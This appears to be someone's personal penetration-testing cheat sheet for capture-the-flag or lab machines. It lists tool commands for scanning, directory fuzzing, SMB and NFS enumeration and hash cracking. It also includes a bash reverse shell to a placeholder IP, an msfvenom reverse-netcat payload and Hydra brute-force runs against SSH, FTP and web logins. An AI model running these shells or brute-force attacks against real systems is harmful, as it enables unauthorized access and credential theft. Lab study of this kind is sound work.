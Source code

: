 
# CLI
## rdp: 
`xfreerdp /u:{username} /p:{password} /v:{ip} /dynamic-resolution`
## netcat:
`nc -lvnp <PORT>`
- `-l`: Listen mode.
    
- `-v`: Verbose output (optional but recommended).
    
- `-n`: Disable DNS resolution (faster).
    
- `-p <PORT>`: Specify the port to listen on (e.g., `4444`).

Then
`bash -c 'bash -i >& /dev/tcp/<YOUR_IP>/<PORT> 0>&1'`
// Research more ways to connect
## Gobuster:
- Directories
```
gobuster dir -u http://ip:port -w /home/Dragon/Code/wordlists/fuzz_php_special.txt -t 100 --timeout 30s
```
```
gobuster dir -u http://ip:port -w /home/Dragon/Code/wordlists/robots.txt
```
- Sub Domains
`gobuster dns -d ip -w /home/Dragon/Code/wordlists/subdomain.txt`


## Rustscan:
`rustscan -a ip -r 1-65535 --ulimit 20000`

Target a specific port:
`rustscan -a ip -p port -- -A -sC`

## tcpdump
- listen {This starts a tcpdump listener, specifically listening for ICMP traffic, which pings operate on.}
`sudo tcpdump ip proto \\icmp -i tun0`

![[Pasted image 20250202160630.png]]

## metasploit
- netcat rev shell
`msfvenom -p cmd/unix/reverse_netcat lhost=10.8.30.74 lport=4444 R`
## Hydra:
`hydra -L /home/Dragon/Code/wordlists/rockyou.txt -p admin ip`

`hydra -l username -P /home/Dragon/Code/wordlists/rockyou.txt ssh://ip -V -I -t 64` 

`hydra -t 4 -l dale -P home/Dragon/Code/wordlists/rockyou.txt -vV ip ftp`

-t 4                    Number of parallel connections per target  
-l [user]               Points to the user who's account you're trying to compromise  
-P [path to dictionary] Points to the file containing the list of possible passwords  
-vV                     Sets verbose mode to very verbose, shows the login+pass combination for                             each attempt
## ffuf
`ffuf -u ip../FUZZ.fileExtension -w /home/Dragon/Code/wordlists/raft-small-words.txt`
- Note: run in full screen

- Post form
`hydra -l username -P /home/Dragon/Code/wordlists/rockyou.txt lookup.thm http-post-form "/login:username=^USER^&password=^PASS^F:wrong password" -V -I -t 64`


## Hashcat
- cd in location of pswd list
`hashcat --stdout -r /home/Dragon/Code/wordlists/hashcat_rules/best64.rule password_list.txt > mutated_passwords.txt`

https://hashcat.net/wiki/doku.php?id=example_hashes

# John
extract hash pw from zip:
`zip2john secret.zip > ziphash.txt`

`john --wordlist=/home/Dragon/Code/wordlists/rockyou.txt ziphash.txt`

## Enum4linux

`enum4linux -h` : Manual

```
enum4linux -U -o 192.168.1.200
```
**TAG**            **FUNCTION**  
- U            get userlist  
- M            get machine list  
- N             get namelist dump (different from -U and-M)  
- S             get sharelist  
- P             get password policy information  
- G             get group and member list
- a             all of the above (full basic enumeration)

### SMB client 
`smbclient //[IP]/[SHARE]`

Followed by the tags:

-U [name] : to specify the user

-p [port] : to specify the port

more "filename" to cat

## NFS
- get shares
`/usr/sbin/showmount -e ip`
- mount
sudo mount -t nfs ip:share /mnt -nolock
## General:
`find / -name "*flag*" 2>/dev/null`
`find / -perm -u=s -type f 2>/dev/null`
`sudo find / -type d -name 'dirName'`

# Intel gathering
SUUID
`find / -perm -u=s -type f 2>/dev/null`
`find /usr/bin /usr/sbin /bin /sbin -perm -u=s -type f 2>/dev/null`



# Notes:
## ssh with RSA
Use private key
Do: chmod 600 filename
Then: 
	ssh -i  rsaprivefilename user@ip


# Pics
- telnet
![[Pasted image 20250202161214.png]]
